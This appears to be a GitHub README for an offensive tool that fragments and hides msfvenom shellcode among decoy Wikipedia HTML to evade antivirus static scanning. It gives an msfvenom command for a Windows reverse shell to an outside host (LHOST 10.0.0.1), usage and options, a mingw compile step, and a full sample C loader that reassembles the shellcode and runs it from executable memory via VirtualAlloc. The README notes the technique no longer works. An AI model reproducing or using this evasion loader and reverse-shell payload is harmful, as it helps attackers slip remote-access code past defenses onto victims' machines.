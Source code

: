 ### This technique no longer works, it was useful a couple of years ago but AVs have gotten better since.
Takes a given shellcode file (generated using msfvenom, for example), shuffle and randomise the shellcode, then generate a C source file to be compiled. 

- Obfuscation Through Memory Manipulation: By using `memcpy` to dynamically assemble the shellcode in memory, effectively hiding the malicious code from static analysis tools.
- Dynamic Reassembly at Runtime: The shellcode is only assembled and becomes recognizable as such during runtime, which helps in evading detection mechanisms that scan executable files before they are run.
- Flexibility: Can be applied to various types of shellcode as long as they are compatible with Windows.

## Usage

Using a shellcode file, using `msfvenom`, for example:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=9001 -e x86/shikata_ga_nai -i 8 -f c > shellcode.c
```
Use the script to obfuscate the shellcode:

```bash
./shellcode_obfuscator.py -s shellcode.c -dm 30 -c 5 -df mr.bean_wikipedia.html -db 60 -min 3 -max 5 -fm 10 
Shellcode size: 540 bytes
Decoy size: 585859 bytes
Fragment count: 4278
File size: 1433798 bytes
File saved to shell.c
```
Compile:

```bash
i686-w64-mingw32-gcc shell.c -o shell.exe
```
Profit?

## Options

`-s` / `--shellcode-file`: Specifies the input file containing the shellcode. This file should contain the shellcode that will be obfuscated by the script. The shellcode is expected to be in a raw binary or hexadecimal format.

`-o` / `--output`: Designates the output file name for the generated C source code. If not specified, the script defaults to creating a file named `shell.c`. This file will contain the obfuscated shellcode.

`-c` / `--chunks`: Sets the number of chunks into which the shellcode will be split. The script divides the shellcode into this specified number of parts for obfuscation. A lower number results in fewer, larger chunks, while a higher number creates more, smaller chunks.

`-df` / `--decoy-file`: Specifies an optional decoy file. The content of this file is used to create additional obfuscated fragments within the generated C source. If not provided, the script will only use randomly generated decoy data.

`-db` / `--decoy-bias`: Determines the likelihood (in percent) that fragments from the decoy file will be used in the generated C source. A higher value increases the probability of using decoy file content in the obfuscation process.

`-dm` / `--decoy-multiplier`: Defines the ratio of decoy fragments to real shellcode fragments. For example, a value of 4 means there will be four times as many decoy fragments as real shellcode fragments. This enhances the obfuscation by adding more non-functional code fragments.

`-min` / `--min-frag-size`: Sets the minimum size for each fragment in bytes. This parameter controls the smallest allowable size for both shellcode and decoy fragments. Smaller fragment sizes can lead to more complex obfuscation.

`-max` / `--max-frag-size`: Specifies the maximum size for each fragment in bytes. It sets the upper limit for the size of the fragments. Larger fragments can reduce complexity but may be less obfuscated.

`-fm` / `--fragment_multiplier`: Affects the length of decoy fragments. This multiplier is applied to the length of decoy fragments, allowing for variability in their size compared to real shellcode fragments. A higher value results in longer decoy fragments.

## Sample output:

This is kept short for readability, it can easily generate thousands of lines with the options adjusted.

```bash
./shellcode_obfuscator.py -s shellcode.c -dm 1 -c 1 -df mr.bean_wikipedia.html -min 50 -max 50 -fm 1
```

```c
#include <stdio.h>
#include <string.h>
#include <windows.h>

int main(int argc, char* argv[]) {
    unsigned char main[] = "\x14\x25\x2c\xde\x7d\x44\xfa\x91\x75\x8a\x89\xf3\x87\x40\x7c\x23\xf7\x27\x35\x58\xe5\xac\xd0\x37\xb2\xf7\xa0\x4d\x87\x34\xeb\x53\xed\xd7\x8b\x63\x80\xd1\xc6\x90\x5f\x28\xb6\xd2\xd5\xc4\x81\xa2\x41\xa3\x58\xb0\x08\x04\x2c\xc8\x72\x45\x24\x77\xf7\x90\xfa\x4e\xf3\x30\x24\x2f\xc9\x07\x74\x4a\x88\x5b\x7e\x0e\x07\x49\x08\xed\xaf\x60\x0f\x1b\xa7\xff\x5c\x2d\x9d\xcb\x72\x5e\x4e\x90\x09\x6c\x8b\x69\x45\x9d\x11\xe6\x77\xd0\x24\x0c\xf7\x85\x6b\xa4\x54\xc3\xcc\xcd\xfa\xb6\x6f\xac\xde\x49\x58\x9c\xe2\x93\xeb\x39\xc2\xc3\xf4\x8c\xab\xa9\x76\x4a\xb9\xbc\x7f\x99\x23\xae\x9e\xc3\x23\x86\xe2\xf5\x62\xbf\xd9\xe4\x56\x26\xa5\xb7\x12\x95\x19\x0d\x82\xb7\x81\x99\x0f\xa3\x80\x4b\x3d\x3c\x41\x2c\xca\xcc\xc0\x37\xa2\xb2\x05\x39\x70\x5f\x6a\xec\xd6\x28\x74\xfb\x2b\xc7\x03\x10\xa7\x66\x08\xcc\xa6\x51\x77\x4d\x5d\x4c\x18\x71\xda\x18\xaf\x1d\x9a\x17\x46\xc4\x88\x1d\xc3\x02\xbf\x79\x47\xb2\xa8\xbc\x6f\xa7\x75\x9c\xc9\x1d\x56\x37\xe4\x2f\xe1\xc3\xca\x96\xbf\x2c\x7f\xc7\x32\x2f\x49\xb1\xe2\x15\x07\x62\xae\x9a\x5d\x50\x55\xdd\x7a\xb0\x05\x84\xdb\x0d\x90\x5e\xc5\x9a\xef\xae\xcd\x19\x41\x15\x98\xb7\xc8\x7c\x9e\x72\xb7\x8f\xce\x3b\x9c\xf6\x52\x77\x97\xe5\xe4\x58\x94\xd1\x86\x71\x85\x64\x4f\x0b\xf9\x26\xe1\xb7\x29\x5a\xa7\x4e\x34\x74\x31\x87\x4f\x2e\xfc\x7b\x96\xe4\xfa\xd3\xed\xb6\xfb\x98\xd3\x73\x17\x9f\xe2\x95\xcf\xcd\xbe\x24\x56\x9b\x3b\x3c\x79\x12\x51\x3f\x78\x6a\x40\x55\x3c\x2b\x7b\xc8\x0f\x07\x25\x35\x03\xb4\xc2\x6b\xe4\x0f\xc7\x6b\x08\xeb\x39\xd2\x5a\x09\x47\x73\x11\xd6\x2e\x02\x2a\x21\xbc\x88\x06\x26\xde\xd0\xfd\x61\x82\x35\x81\xe7\x0e\x1a\xc6\xd4\x74\x13\x07\x06\xaa\xa1\x64\x78\x82\x1b\x25\xe9\xdd\xbe\xe4\xf3\xe0\x88\xa6\x33\x24\xd9\xaa\x27\x61\x05\x45\xda\xab\x52\x98\x14\xcb\x52\x5a\xfd\x33\x8e\xd3\xff\x51\xc6\x41\x86\xbc\x0e\x9c\xe0\xd7\x00\xbc\x04\x9e\x83\xe4\x13\x6d\xac\x0f\x52\xe9\x85\x8d\xde\x7b\x01\x14\xb8\x68\x2b\x70\xa0\xc7\x77\xbf\x5f\x0a\xa4\x2a\xc0\xd5\xe6\x1f\x15\xbb\x18\x7e\xf1\xef\xda\x3b\x57\x0d\xcf\xcb\xb1\xb8\x78\x38\x96\x84\x71\xb5\x77\x77\xb5\x1b\xb0\x9d\x56\x06\x89\xf7\xde\x05\xba\xd5\xc0\x39\x01\x61\xec\x0d\x83\x6f\xf3\x39\x51\xc3\x25\x8e\x44\xa0\xfe\xb9\xb8\x14\x50\xc4\x6b\x6a\xf1\x41\xb8\x84\x03\xf0\x9c\x1f\x61\x18\x2d\x17\xe2";



    unsigned char block0[540] = "\xd3\xcf\xaf\x59\xff\x50\x39\x6a\xa6\x15\xb4\x7b\x40\x2b\x98\x00\x44\xd1\x81\xf0\x79\xb1\xb9\x5e\x82\x4d\xd7\x0a\x93\xa2\x15\xa3\x2f\x89\x2b\x9d\x99\xe3\xed\x04\x52\xbe\x08\xb6\x6c\x4f\xad\x50\xf8\xbf\xee\x0a\xe8\xe4\x0e\x8d\xc2\x93\xad\x21\xa4\x89\x05\x09\x29\x95\xd7\x0b\x54\xa5\xf8\x6c\x9d\x30\x7d\xd6\x0b\x06\x92\xdc\xe8\x3d\x35\x1d\xa9\xd3\x26\x41\x08\xd1\xd5\xe7\x24\xcf\xfe\x22\xfe\x4b\x1e\x06\x2b\xc1\xda\x81\x67\x9f\x32\x94\x4d\x19\x0a\x94\xb0\x60\x4d\xe2\x3d\x7c\xb2\xa5\x54\x46\x6c\x41\x51\xca\x6f\x84\x25\x36\x9b\x40\x13\x4c\xa7\x6c\x7d\x6f\xab\x42\x3a\x6a\xa0\x3f\x4e\xc9\x35\xa3\x05\x27\x8e\x1f\x26\xc7\x54\xf9\xfb\x07\x0a\xc3\xdb\xda\x0f\x9f\x5c\x4c\xf9\xa3\x08\x8e\x1c\xf6\x6d\xc7\x6c\xb4\x19\xf2\xc7\x6e\x6a\x13\x97\x68\xf3\xae\xad\xa2\x2c\x37\x14\xc7\x4e\x77\xb2\xed\xb6\x3f\x99\xa8\xfa\x58\x21\x10\x03\x17\xb5\xb4\x09\x9b\x30\xad\x88\x5d\x51\x06\x11\x84\x1c\x58\x6b\xa1\x08\x5f\xde\xb9\x10\xbf\x97\x1f\x30\x99\x31\x3f\x60\x04\xd6\xa1\x0f\xf0\x98\x15\x0f\x69\xa7\x3a\xa5\xec\x08\xa4\x72\xd1\x8b\x3b\xe3\x4c\x54\xa5\xa4\x24\xb4\xbb\x16\x26\x3d\xec\x4e\xbf\xaf\xaa\xf4\x81\xd0\x7e\x04\x8a\xf1\x16\xc4\x93\x52\x91\x7b\xf9\x9a\xeb\x54\xec\x2b\x91\x07\x11\xf1\x00\x35\x4e\xa6\x1b\xbc\xee\x68\xb9\xee\x35\x9e\xf0\x7d\x5a\x24\x3e\xbe\xad\x60\x7d\xa1\x61\xfc\x14\x63\xd7\x69\x31\xe3\xbb\x9a\xbb\x52\x58\xee\x1f\xc7\x67\xb9\x72\xf0\xc5\x6a\xb7\x61\x25\xc1\x77\xc6\x49\x28\xd8\x5f\xad\xa7\xa4\xe2\xf5\x70\xda\xa1\x45\x09\x2f\xd0\x31\x22\x31\x7e\x97\x66\xc4\x15\x66\xd8\x73\x46\x55\xd0\xe2\x65\x3c\x00\x0c\xcb\x04\x47\xa5\x06\xb1\xe2\xa6\xdd\x17\xc7\x99\xb5\x5d\xac\x6a\x8f\xa5\x93\xd2\xc7\x2e\x34\x3b\x91\xe1\x3b\x09\xe8\xbb\x6a\x2e\xd5\x23\xa7\x4d\xa0\x91\xaa\x86\xe6\x40\xf8\xab\xa4\x40\x7b\x69\x37\xc4\x47\xf3\xfd\xb8\x34\x93\xa0\x1e\x52\xdc\x91\x3d\xc0\x77\x9e\x8f\x4e\xf8\xa6\xdd\x84\xee\xff\x96\xcc\xa5\xfc\x34\xca\x05\x71\x43\xbd\x35\xde\xbd\x52\xa5\xee\x71\x68\xa6\x2b\x29\x8a\x20\x2c\x6e\xf1\x9e\x24\x47\x86\xca\x91\xd8\x41\xc8\x09\x8c\x72\x2f\xad\x78\xf5\x5c\x7b\xa9\x9b\x9d\x9d\x39\xce\x97\x6e\x04\x97\x16\x54\xfd\xcf\x42\x85\xa6\x7d\x03\x04\x5e\xc4\xc0\x0f\xac\x89\xe1\x82\x50\xf4\xf6\xc9\xa9\x6c\x18\xbe\x33\x66\x29\x85\xe0\x48\xea\x5a\x7d";
    char _0a[] = "v></div>\n\t\t\t\t\t<div id=\"catlinks\" class=\"catlinks\" data-mw=\"interface\"><div id=\"mw-normal-catlinks\" class=\"mw-normal-catlinks\"><a href=\"/wiki/Help:Category\" title=\"Help:Category\">Categories</a>: <ul><li><a href=\"/wiki/Category:1990_British_television_series_debuts\" title=\"Category:1990 British television series debuts\">1990 British television series debuts</a></li><li><a href=\"/wiki/Category:1990s_British_sitcoms\" title=\"Category:1990s British sitcoms\">1990s British sitcoms</a></li><li><a href=\"/";
    unsigned char _0b[] = "\xfb\x52\x24\xfe\x66\x63\x8d\x38\xbb\x5b\x13\xd8\x60\xea\xf0\x62\xba\x99\x74\x2c\x85\x02\x8f\xb2\x43\xd2\x97\x3c\xcc\x93\xc7\x2f\xd0\xff\xa8\x5b\x1d\x73\x23\xe4\xc1\x47\xd5\x3b\xb2\x5e\x87\x68\x0e\x61";
    unsigned char _0c[] = "\x36\xf7\x4f\x18\x4a\x62\x2e\xc1\x72\x61\x18\x5b\xe0\xf4\x8b\xb2\x31\xd9\x1a\x99\x2b\x7b\xc5\xe1\x4d\x23\xce\x28\x89\xb7\xfe\x18\x1d\x51\x56\x13\x1d\x87\x3f\xa2\x4c\xd3\xe8\x0a\x2b\xd0\x28\x6f\x4e\x76";
    unsigned char _0d[] = "\x9f\xe2\x79\x8e\xa6\xb1\x27\x2f\xa5\x00\x5b\xe0\xbd\xcc\x88\x88\xb5\x95\xde\x31\xdb\x92\x03\xd3\x3a\x67\x1b\xf0\xfd\x83\xae\x4d\xc7\x83\x0f\xaf\x89\x2c\x75\x03\x9e\xb8\x7d\x0e\x4d\x8b\x30\x30\xea\xc3";
    unsigned char _0e[] = "\x0c\xe8\x9e\xcf\xf6\xff\xb8\x77\x27\x00\x6d\x05\x03\x0e\x95\xee\xea\x69\x71\xe3\xdb\x12\x30\x5a\xde\xbd\x31\x4d\x35\xce\xcd\xd0\x62\x89\xee\x24\x25\xad\x07\x6e\x6d\x59\x70\xaf\xd8\x86\x69\xae\x40\x64";
    unsigned char _0f[] = "\xdd\x5d\x42\x57\x53\xcd\x8e\xc6\xa5\xe1\x18\x74\xf3\xbd\x99\x16\xac\x14\x7e\xb0\x9a\x06\x9a\x72\x1f\x86\x24\x59\x9d\x03\x37\x12\x34\x71\x2a\x98\xef\xa9\x11\x8d\x71\xf1\xd2\xff\x8f\x15\xf3\x2c\x28\x62";
    unsigned char _0g[] = "\x30\xf0\x25\xa9\x84\x4c\x28\x33\x0b\x2d\x48\xc9\x3c\x15\x70\x9e\xf8\x4a\x37\x07\xd8\x83\x1c\x1b\xfc\x16\xda\x92\xbd\x43\x1d\xda\x46\xb2\x35\x18\x8c\x00\x23\xcf\xf8\xbd\xd6\xe6\xbd\xc0\xe0\xd6\x3f\x5b";
    unsigned char _0h[] = "\x54\x9d\x25\xcd\xb2\x8c\x66\x0b\x08\x0e\x0f\x6f\xe1\xed\x69\x6c\xf1\x50\x79\x27\x04\xdb\xee\xcb\xe0\xb7\x92\xf0\xdb\x62\xf0\x42\x2f\x2b\xf5\x1f\x8d\xf9\xff\x22\x6d\x96\x71\x54\x4a\x7b\x34\xed\x64\x66";
    unsigned char _0i[] = "\x9d\x28\x42\xf5\xb3\x98\x97\xa3\xf1\x34\x33\x92\xc2\x25\x16\x91\x29\xec\x70\xb6\x48\xf9\xa2\xdb\x12\x38\x23\x0b\xdb\x5a\x9f\x68\x03\x8d\x98\xf8\x06\x0b\xdf\xd7\xce\x8e\x5d\xa5\xce\x6b\xa4\x47\x16\x6c";
    unsigned char _0j[] = "\x38\xa9\xb9\xf8\xb1\x82\x3e\xaf\x3f\x63\xf5\x58\xc9\x20\xc8\xc9\x6a\x5c\x3e\xff\xb3\x01\xac\x14\xcc\x4c\xb9\xbc\xa2\x3c\x10\xaf\xb9\x2e\x8e\xf2\x16\xc2\x38\xe7\xd7\x78\x65\x1d\x7e\x43\x72\x5b\x8a\x3a";
    unsigned char _0k[] = "\xf3\x54\x9f\x53\xfc\xcf\x48\x65\x38\xda\xab\xfb\xfb\x8c\x37\xc5\xa4\xc4\x7a\xa2\xd7\x94\xf8\x2e\x95\x0d\xb4\x2c\x55\x11\xf5\x8a\x26\x73\x46\x65\x73\xb5\x03\x65\xa8\xb8\x3e\x50\x96\x9a\x60\x8a\x73\x73";
    unsigned char _0l[] = "\xd9\xcb\xba\x87\x8c\x67\x44\xd9\x74\x24\xf4\x5d\x33\xc9\xb1\x81\x83\xc5\x04\x31\x55\x14\x03\x55\x93\x6e\x92\xfb\x7d\xb6\xef\xfe\x5a\x88\xc9\x8b\x78\xe3\xb2\x58\x49\xba\x39\xae\x31\xa9\x3e\x38\x3d\xd2";
    char _0m[] = "tom:none;text-decoration:none;cursor:inherit}.mw-parser-output .navbar-ct-full{font-size:114%;margin:0 7em}.mw-parser-output .navbar-ct-mini{font-size:114%;margin:0 4em}</style><div class=\"navbar plainlinks hlist navbar-mini\"><ul><li class=\"nv-view\"><a href=\"/wiki/Template:Mr._Bean\" title=\"Template:Mr. Bean\"><abbr title=\"View this template\" style=\";;background:none transparent;border:none;box-shadow:none;padding:0;\">v</abbr></a></li><li class=\"nv-talk\"><a href=\"/wiki/Template_talk:Mr._Bean\" titl";
    char _0n[] = "tent:\" ]\"}.mw-parser-output .navbar li{word-spacing:-0.125em}.mw-parser-output .navbar a>span,.mw-parser-output .navbar a>abbr{text-decoration:inherit}.mw-parser-output .navbar-mini abbr{font-variant:small-caps;border-bottom:none;text-decoration:none;cursor:inherit}.mw-parser-output .navbar-ct-full{font-size:114%;margin:0 7em}.mw-parser-output .navbar-ct-mini{font-size:114%;margin:0 4em}</style><div class=\"navbar plainlinks hlist navbar-mini\"><ul><li class=\"nv-view\"><a href=\"/wiki/Template:Mr._B";
    unsigned char _0o[] = "\x2a\x2e\x11\x9f\xd6\x2b\xae\x83\x60\x47\x03\x5c\x3d\xae\x5b\x55\x16\xc1\xea\x0a\xf8\x2e\x58\x1f\x9b\x8d\xf1\x8b\x52\x1d\x47\x21\x77\x65\x43\xf2\x13\x1c\x25\x94\x2d\x3e\xba\x25\x56\xd8\x4d\xe3\xb9\x5e";
    unsigned char _0p[] = "\xe6\x47\x0c\xd3\x7b\xd0\xf1\x91\x86\x08\xc9\x2a\x5c\x05\x8f\xef\xe3\x9b\x70\x5a\xf3\x07\xc9\xa4\xa6\x53\x64\xcc\x2a\x9f\xe5\xe2\x8e\x5d\xac\x61\xde\x01\xa8\x9a\x87\xa6\x69\x9e\x54\xe9\xd4\x31\xbf\xd9";
    unsigned char _0q[] = "\xb9\xe9\x34\x52\xdf\xca\xdd\xdd\xf9\x2a\xb3\x9d\x8c\x36\x32\x03\xe3\xa6\x15\x1a\x02\x13\xbf\x2d\x74\x31\x8a\x84\x00\x44\x14\x8d\x3b\x23\x44\xca\xab\xfe\xb0\x64\x74\xd6\x7b\xb7\xed\x91\xd1\x3a\xb7\x59";
    char _0r[] = "88\"></span></span>\n</li>\n<li id=\"cite_note-57\"><span class=\"mw-cite-backlink\"><b><a href=\"#cite_ref-57\">^</a></b></span> <span class=\"reference-text\"><link rel=\"mw-deduplicated-inline-style\" href=\"mw-data:TemplateStyles:r1133582631\"><cite class=\"citation web cs1\"><a rel=\"nofollow\" class=\"external text\" href=\"https://www.youtube.com/mrbean\">\"Kanaal van MrBean\"</a>. YouTube. 1 January 1990. <a rel=\"nofollow\" class=\"external text\" href=\"https://web.archive.org/web/20100804200604/http://www.youtube.";
    unsigned char _0s[] = "\x5e\x5e\xfe\xf2\x65\xad\x00\xff\x27\xf7\xe2\xa2\x02\xc9\x99\x83\x8a\x5a\xeb\x7f\x17\x88\x09\x36\xe1\x2f\x83\xe8\x1a\xe0\x8c\x91\x6e\xe8\xe8\x73\x0d\x59\x0a\xd9\xaa\x06\x3b\x76\x3c\x47\x82\xe2\x0d\x4d";
    unsigned char _0t[] = "\x5c\x4c\x33\x7a\x3e\xec\xa1\xcd\xff\xb6\xc6\x7f\x7c\xf3\xda\x43\x98\xe4\x28\x18\x2b\x4e\xa0\xae\x22\x1e\xf2\x5c\x2c\xd2\x1b\xd1\x86\xaa\x71\xec\x59\x75\xb5\xce\x6c\x47\x77\x4f\x94\xde\xf9\x03\x8d\xb3";
    unsigned char _0u[] = "\xed\x0b\x35\x44\x92\x49\xff\x2c\x7c\xcd\x9c\x97\xee\x4d\x61\xf2\xf6\x01\x95\xdc\x06\xd5\xc9\x78\x9b\xc9\x1f\x5f\xd3\x43\x04\xde\x26\x26\xc1\x1a\xaa\x47\xf7\xdf";
    unsigned char _0v[] = "\x99\x84\xe3\x65\x9d\x94\x56\xfd\xd5\x44\xbb\xb5\x60\x00\xbc\x16\x22\xba\x47\x33\xec\xe2\xc9\x55\x16\xbe\x9f\xf6\x93\x32\x2f\xf9\x50\xc7\x43\xe5\x11\xee\xbe\x79\xea\x65\xd5\x25\x87\xe3\x26\x50\xe4\x9d";
    memcpy(block0 + 450, _0d, sizeof(_0d) - 1);
    memcpy(block0 + 400, _0f, sizeof(_0f) - 1);
    memcpy(block0 + 200, _0g, sizeof(_0g) - 1);
    memcpy(block0 + 350, _0i, sizeof(_0i) - 1);
    memcpy(block0 + 50, _0j, sizeof(_0j) - 1);
    memcpy(block0 + 0, _0l, sizeof(_0l) - 1);
    memcpy(block0 + 150, _0p, sizeof(_0p) - 1);
    memcpy(block0 + 250, _0q, sizeof(_0q) - 1);
    memcpy(block0 + 300, _0s, sizeof(_0s) - 1);
    memcpy(block0 + 100, _0t, sizeof(_0t) - 1);
    memcpy(block0 + 500, _0u, sizeof(_0u) - 1);

    void* exec = VirtualAlloc(0, sizeof main, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(main + 0, block0, sizeof(block0));


    memcpy(exec, main, sizeof(main));
    ((void(*)())exec)();

    return 0;
}
```
